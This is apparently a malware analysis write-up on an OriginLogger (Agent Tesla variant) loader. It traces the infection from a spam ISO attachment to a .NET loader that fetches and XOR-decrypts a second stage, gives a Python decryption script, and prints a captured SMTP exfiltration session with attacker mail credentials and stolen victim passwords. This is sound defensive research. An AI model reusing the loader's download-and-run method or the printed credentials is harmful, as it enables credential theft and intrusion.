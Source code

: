 # OriginLogger Loader


## Conclusion

Origin Logger is a variant of Agent tesla, it is build on top of it and uses all of its capabilities. The malware is spreading using spam emails with a malicious attachments. The malware exfiltrate user accounts and passwords and other information from the infected machine.

## Infection through Email

the infection is started with spam email attached by `.iso` File

![](img/email.png)

the .ISO file contains only an executable with a PDF icon.

## Loader Analysis

the ISO file contains `.exe` file that is likely to be the fist loader. Dropping the executable in Detect It Easy

![](img/DIE_overview.png)

It is a .NET executable and the entropy is not high, Hopefully it will not be packed . So, I will use `dnSpyEx` to decompile the executable. Going to the Entry Point:

![](img/mainClass.png)

there is Three function calls. `EnableVisualStyles` and `SetCompatibleTextRenderingDefault` both do not contain anything useful as they are library functions and not written by the author.
the third part is creating a instance to `Form1` class.
The constructor contains two functions:

![](img/form1.png)

![](img/init_comp.png)

`InitializeComponent` is used to configure the form, it is not part of the malicious code so let's continue to `Socker` function.

![](img/socker.png)

by exploring the first function, it stores a random string in `Text` variable and calls `Hyper.Array()`.

![](img/trial.png)

`Hyper` class contains the information we are looking for, a link for the second stage.

![](img/hyper.png)

starting with `Array()` function which calls `GetBuffer()` . `GetBuffer()` just calls `Avrql()` and passing `http://savory.com[.]bd/sav/Ztvfo.png` as an argument.
`Avrql()` function downloads the file `Ztvfo.png` and stores it as an array in the memory and returns that Array. Returning to `Array()` function which takes the downloaded file in `buffer` variable and XOR it with the string `Sfhdjkpkowgnpcgoshb` and stores the XORed data in `list` array.
that's all for the hyper class, returning back to `Socker` to check the other function.

![](img/void.png)

`Void()` loads assembly data stored in `Tag` which is the file downloaded and XORed previously.
To run the loaded assembly, `Lion()` and `Ursa` are used, both Invokes different namespaces from the randomized string `this.richTextBox1.Text = "Gdbtshcw.Sdnceyzqa Vqyhbeqthicxedwtrnxrbzcq"`

## Downloading the second stage

using the PCAP file provided with the sample to get the second stage. we can use `wireshark` to do so.
to Download the file, navigate to `File > Export Objects > HTTP`

![](img/Ztvfo.png)

The Content of the this file is Encrypted using XOR cipher as we saw previously.
using the following script to decrypt the file

```python
import struct
s=[]
key = b"Sfhdjkpkowgnpcgoshb"
with open("Ztvfo.bin",'rb') as f:
    buff = bytearray(f.read())
    for i in range(len(buff)):
        s.append((buff[i] ^ ord(key[i%len(key)])))
with open("Ztvfo_out.bin",'wb') as f:
    f.write(struct.pack('664576B', *s))
```

## second stage Analysis

![](img/second_overview.png)

Uploading the extracted file to DIE, The executable is obfuscated using .NET Reactor.

## Network capture analysis

from the provided PCAP file of the traffic. Origin Logger exfiltrate the data using SMTP communication. the following is the content of the communication:

```
220-bh-41.webhostbox.net ESMTP Exim 4.95 #2 Thu, 05 Jan 2023 22:51:30 +0000
220-We do not authorize the use of this system to transport unsolicited,
220 and/or bulk e-mail.
EHLO DESKTOP-WIN11PC
250-bh-41.webhostbox.net Hello DESKTOP-WIN11PC [173.66.46.112]
250-SIZE 52428800
250-8BITMIME
250-PIPELINING
250-PIPE_CONNECT
250-AUTH PLAIN LOGIN
250-STARTTLS
250 HELP
AUTH login bWFya2V0aW5nQHRyYW5zZ2Vhci5pbg==
334 UGFzc3dvcmQ6
TUBzc3cwcmQjNjIx
235 Authentication succeeded
MAIL FROM:<marketing@transgear.in>
250 OK
RCPT TO:<zaritkt@arhitektondizajn.com>
250 Accepted
DATA
354 Enter message, ending with "." on a line by itself
MIME-Version: 1.0
From: marketing@transgear.in
To: zaritkt@arhitektondizajn.com
Date: 5 Jan 2023 22:51:31 +0000
Subject: PW_windows11user/DESKTOP-WIN11PC
Content-Type: text/html; charset=us-ascii
Content-Transfer-Encoding: quoted-printable

Time: 01/05/2023 22:51:26<br>User Name: windows11user<br>Computer=
Name: DESKTOP-WIN11PC<br>OSFullName: Microsoft Windows 11 Pro<br=
>CPU: Intel(R) Core(TM) i5-13600K CPU @ 5.10GHz<br>RAM: 32165.83 =
MB<br>IP Address: 173.66.46.112<br><hr>URL:imap://mail.windows11u=
sers.com<br>=0D=0AUsername:admin@windows11users.com<br>=0D=0APass=
word:EBj%U7-p@q4NW<br>=0D=0AApplication:Thunderbird<br>=0D=0A<hr>=
=0D=0AURL:smtp://mail.windows11users.com<br>=0D=0AUsername:admin@=
windows11users.com<br>=0D=0APassword:EBj%U7-p@q4NW<br>=0D=0AApplicat=
ion:Thunderbird<br>=0D=0A<hr>=0D=0AURL:webmail.windows11users.com=
<br>=0D=0AUsername:admin@windows11users.com<br>=0D=0APassword:EBj=
%U7-p@q4NW<br>=0D=0AApplication:Edge Chromium<br>=0D=0A<hr>=0D=0AURL=
:https://login.us.coca-cola.com/<br>=0D=0AUsername:admin@windows1=
1users.com<br>=0D=0APassword:Zp61-7$r#J_iLpCYV&jKr<br>=0D=0AAppli=
cation:Edge Chromium<br>=0D=0A<hr>=0D=0AURL:https://www.linkedin.=
com/<br>=0D=0AUsername:admin@windows11users.com<br>=0D=0APassword=
:TqQPvG#0g%$ga_q51<br>=0D=0AApplication:Edge Chromium<br>=0D=0A<h=
r>=0D=0AURL:https://www.amazon.com/ap/signin<br>=0D=0AUsername:ad=
min@windows11users.com<br>=0D=0APassword:3Fo76#PTf4P$Im!9mkLso69e=
T<br>=0D=0AApplication:Edge Chromium<br>=0D=0A<hr>=0D=0AURL:https=
://www.target.com/login<br>=0D=0AUsername:windows11user<br>=0D=0APas=
sword:c$Kl3wO!e#i7A&!L2<br>=0D=0AApplication:Edge Chromium<br>=0D=0A=
<hr>=0D=0AURL:https://myaccount.nytimes.com/auth/login<br>=0D=0AU=
sername:admin@windows11users.com<br>=0D=0APassword:u*N21Or650yBps=
p45awSa<br>=0D=0AApplication:Edge Chromium<br>=0D=0A<hr>=0D=0A
.
250 OK id=1pDZ59-000wFk-B4
QUIT
221 bh-41.webhostbox.net closing connection
```

the exfiltrated data
| type of data | example from the PCAP |
| -------------------------- | ----------------------------------------------------------------------------------------------------------- |
| Current Time | 01/05/2023 22:51:26 |
| OS Full Name | Microsoft Windows 11 Pro |
| CPU | Intel(R) Core(TM) i5-13600K CPU @ 5.10GHz |
| RAM | 32165.83 MB |
| IP Address | 173.66.46.112 |
| URL | imap[://]mail.windows11users[.]com |
| Username | admin@windows11users[.]com |
| Password | EBj%U7-p@q4NW |
| Application: Edge Chromium | AURL=https[://]login.us.coca-cola[.]com/ Username:admin@windows11users[.]com Password:Zp61-7$r#J_iLpCYV&jKr |

it steals the username and password of the user and send data of the current machine and steals user accounts from different locations like thunderbird and edge browser.

## References

https://www.malware-traffic-analysis.net/2023/01/05/index.html

## File hashes

- 926a3142270a52f8afb93490d5dd21f0ca23bc0815ee6630068cf6409d8ee448
- 5016ba92afac1c2b2a2a6b17a09406869bd6f58cfe680f25030af1a1ba1c29a2
- 90d977ca0a3331d78005912d2b191d26e33fa2c6ef17602d6173164ba83fd85e
- 3883d374ba0736254a89e310b86f3c3769adcaed471b103b5c0a8a2f16cf5c8d

